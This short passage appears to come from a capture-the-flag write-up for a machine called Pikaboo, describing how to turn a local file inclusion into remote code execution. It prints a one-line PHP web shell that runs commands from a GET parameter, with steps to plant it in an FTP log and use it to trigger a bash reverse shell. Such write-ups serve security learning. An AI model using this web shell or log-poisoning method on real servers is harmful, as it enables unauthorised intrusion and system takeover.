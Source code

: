 ![](/assets/img/posts/pikaboo/lfi-to-rce.png)

add php web shell in ftp log file and execute it with lfi.
```bash
'<?php system($_GET['c']); ?>'
```

request parameter `c` and send url encoded bash reverse shell with it.
